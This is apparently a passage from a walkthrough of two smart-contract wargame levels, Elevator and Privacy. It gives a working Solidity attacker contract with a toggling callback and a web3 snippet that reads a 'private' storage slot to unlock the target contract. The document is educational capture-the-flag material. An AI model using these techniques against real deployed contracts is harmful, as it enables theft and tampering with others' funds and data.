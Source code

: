 ## 11. Elevator
Ngl though, I thought that this was quite a stupid level. Conditional ifs to return different values isn't really what I would call an attack. This is a very common usecase e.g. if I have no tokens, I can't transfer anything.

Nevertheless, the solution to this floor is basically to have a function return different values when called multiple times in the same transaction. I used a bool flag since that's sufficient to clear the level.

Note: If your floor is not updated for some reason, take a look at the transaction. There might not be enough gas supplied for the entire transaction to be executed.
```
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract AttackBuilding is Building {
    bool public flag;

    function isLastFloor(uint) external override returns(bool) {
        flag = !flag;
        return !flag;
    }

    function attack(address _victim) public {
        bytes memory payload = abi.encodeWithSignature("goTo(uint256)", 1);
        _victim.call(payload);
    }
}
```

## 12. Privacy
This level is very similar to that of the level 8 Vault. In order to unlock the function, you need to be able to retrieve the value stored at `data[2]`. To do that, we need to determine the position of where `data[2]` is stored on the contract.

I used to link the solidity docs but the path keeps changing so just google "storage layout solidity docs" and find the latest one to read.

From the docs, we can tell that `data[2]` is stored at index 5. Index 0 contains the value for `locked`, index 1 contains the value for `ID`, index 2 contains the values for `flattening`, `denomination` and `awkwardness` (they're packed together to fit into a single bytes32 slot), index 3 contains the value for `data[0]` and finally, index 4 contains the value for `data[1]`.

Astute readers will also notice that the password is actually casted to bytes16! So you'd need to know what gets truncated when you go from bytes32 to byets16. You can learn about what gets truncated during type casting [here](https://www.tutorialspoint.com/solidity/solidity_conversions.htm).

```
var data = await web3.eth.getStorageAt(instance, 5);
var key = '0x' + data.slice(2, 34);
await contract.unlock(key);
```

